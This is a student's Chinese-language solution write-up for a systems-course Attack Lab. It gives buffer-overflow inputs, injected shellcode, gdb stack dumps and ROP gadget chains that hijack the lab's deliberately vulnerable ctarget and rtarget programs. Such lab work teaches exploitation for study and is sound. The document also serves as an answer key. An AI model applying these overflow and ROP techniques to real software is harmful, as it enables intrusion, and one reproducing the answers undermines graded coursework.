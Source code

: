# Attack Lab Report

target34

## Part I: Code Injection Attacks

### Phase 1

让`getbuf`返回时执行`touch1`而非`test`，即返回到`touch1`的起始地址。

`getbuf`中`sub $0x28,%rsp`说明缓冲区有0x28即40位，再高4位就是正常返回的地址。因此需要利用缓冲区溢出覆写返回地址。构建输入`c1.txt`如下：
```
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
00 00 00 00  00 00 00 00  2c 17 40 00
```
每两位十六进制数对应一个char，即构建了一个长度为44的字符串。前40位仅是为了填充缓冲区，最后4位是小端法下的`touch1`地址（通过`objdump -d ctarget`查看）。使用`hex2raw < c1.txt | ./ctarget`实施攻击。

### Phase 2

让`getbuf`返回时执行`touch2`，同时还需要传入特定的参数（cookie）。可以通过代码注入来实现。构建代码`c2.s`如下：
```asm
mov    $0x43227a88,%rdi
pushq  $0x401758
retq   
```
其中第一句把cookie放入rdi作为第一个参数，后两句返回到`touch2`的地址。

接下来`gcc -c c2.s && objdump -d c2.o > c2.s`得到指令码：
```asm
p2.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 88 7a 22 43 	mov    $0x43227a88,%rdi
   7:	68 58 17 40 00       	pushq  $0x401758
   c:	c3                   	retq   
```
把这些指令作为输入后，三条指令就在栈上了。因此修改返回地址到获取输入前的栈指针rsp就可以运行这些栈上的代码。可以用gdb查看当时的rsp位置。`gdb ctarget`; `b getbuf`; `r`; `step`; `i r rsp`得到rsp值为0x5560f988。因此构建输入`c2.txt`如下：
```
48 c7 c7 88  7a 22 43 68  58 17 40 00  c3 00 00 00 
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
00 00 00 00  00 00 00 00  88 f9 60 55
```
然后`hex2raw < c2.txt | ./ctarget`。

### Phase 3

与phase2类似，这次需要传入一个地址，指向字符串形式的cookie。除了代码注入，还需要找个地方放字符串。最直接的做法是像指令一样通过输入放到栈上，然而在输入后到使用字符串之间会涉及调用`hexmatch`，可能会使用栈上的一些空间，所以需要找到一块不受影响的位置存放字符串。

先构造代码如下：
```asm
mov    $0x5560f988,%rdi
pushq  $0x401869
retq   
```
基本与phase2相同，只是把rdi的值暂时改成了`getbuf`内的rsp值，然后返回到`touch3`。像之前一样构建输入，gdb中在`hexmatch`前后设好断点后运行：

```
Breakpoint 1, 0x000000000040187a in touch3 (sval=0x5560f9c8 "") at visible.c:73
73      visible.c: Permission denied.
(gdb) x/32x 0x5560f988
0x5560f988:     0x88c7c748      0x685560f9      0x00401869      0x000000c3
0x5560f998:     0x00000000      0x00000000      0x00000000      0x00000000
0x5560f9a8:     0x00000000      0x00000000      0x55586000      0x00000000
0x5560f9b8:     0x00000008      0x00000000      0x00401e7c      0x00000000
0x5560f9c8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x5560f9d8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
0x5560f9e8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
0x5560f9f8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
(gdb) c
Continuing.

Breakpoint 2, 0x0000000000401885 in touch3 (sval=0x5560f9c8 "") at visible.c:73
73      in visible.c
(gdb) x/32x 0x5560f988
0x5560f988:     0xbe80c500      0x9a5700ba      0x5560f9c8      0x00000000
0x5560f998:     0x55685fe8      0x00000000      0x00000003      0x00000000
0x5560f9a8:     0x00401885      0x00000000      0x55586000      0x00000000
0x5560f9b8:     0x00000008      0x00000000      0x00401e7c      0x00000000
0x5560f9c8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
0x5560f9d8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
0x5560f9e8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
0x5560f9f8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
```

观察发现在0x5560f9a8及之前的位置都有值改变，之后的位置应该是安全的。尝试在紧接其后的位置0x5560f9b8（方便起见空了4个byte）放字符串，则代码及输入如下：
```asm
mov    $0x5560f9b8,%rdi
pushq  $0x401869
retq   
```
```
48 c7 c7 b8  f9 60 55 68  69 18 40 00  c3 00 00 00 
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
00 00 00 00  00 00 00 00  88 f9 60 55  00 00 00 00 
34 33 32 32  37 61 38 38  00 00 00 00
```
运行发现可行。（cookie的字符串形式可以在python中运行`[hex(ord(c)) for c in "<cookie>"]`得到）

## Part II: Return-Oriented Programming

### Phase 4

与phase2要求一致，但是不能运行栈上的代码，即做不了代码注入，需要利用`rtarget`里已有的指令，发现一些gadget。

要实现以cookie为参数调用`touch2`，可以构建指令如下：
```asm
popq   %rdi
ret
```
或者先pop到另一个寄存器再move到rdi中：
```asm
popq   %rax
movq   %rax,%rdi
ret
```

popq编码是58到5f，但是在farm段里没有找到之后接着c3的（包括隔着nop），于是在全文件搜，在`submitr`末尾正好有5f c3，起始地址是402a4b。因此构建输入如下：
```
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
00 00 00 00  00 00 00 00  4b 2a 40 00  00 00 00 00 
88 7a 22 43  00 00 00 00  58 17 40 00  00 00 00 00
```
前面40个byte仍是为了填充缓冲区，之后分别是gadget地址，cookie和`target2`地址，要注意小端法和对齐（popq一次拿8个byte）。

**提交后发现被判定为invalid了，看来只能运行farm段里的代码。**于是尝试利用下面两个函数里的58 90 90 c3和48 89 c7 c3，分别对应`popq %rax; ret`（如果忽略中间的90 90）和`movq %rax,%rdi; ret`。
```asm
000000000040191a <getval_104>:
  40191a:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
  40191f:	c3                   	retq   
...
0000000000401927 <setval_484>:
  401927:	c7 07 58 90 90 c3    	movl   $0xc3909058,(%rdi)
  40192d:	c3                   	retq   
```

则输入如下：
```
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00 
00 00 00 00  00 00 00 00  29 19 40 00  00 00 00 00 
88 7a 22 43  00 00 00 00  1b 19 40 00  00 00 00 00 
58 17 40 00  00 00 00 00
```
这次通过了。


### Phase 5

与phase3要求一致。输入完栈上从栈顶到栈底设计如下：
```asm
movq   %rsp,%rax
movq   %rax,%rdi
popq   %rax
$0x48 (offset)
movl   %eax,%ecx
movl   %ecx,%edx
movl   %edx,%esi
lea    (%rdi,%rsi,1),%rax # available at <add_xy>
movq   %rax,%rdi
$0x401869 (<touch3>)
"..." (cookie)
```

前面到lea的一堆都是为了拿到cookie字符串的地址：rsp+offset。执行第一句时rsp已经指向下一句了，因此偏移量是8*9=72=0x48个byte。最后用这个地址作为参数调用`touch3`。输入如下：

```
00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00  16 1a 40 00 00 00 00 00 
1b 19 40 00 00 00 00 00  29 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00  78 19 40 00 00 00 00 00 
9f 19 40 00 00 00 00 00  49 19 40 00 00 00 00 00 
42 19 40 00 00 00 00 00  1b 19 40 00 00 00 00 00 
69 18 40 00 00 00 00 00  34 33 32 32 37 61 38 38 
00 00 00 00 00 00 00 00
```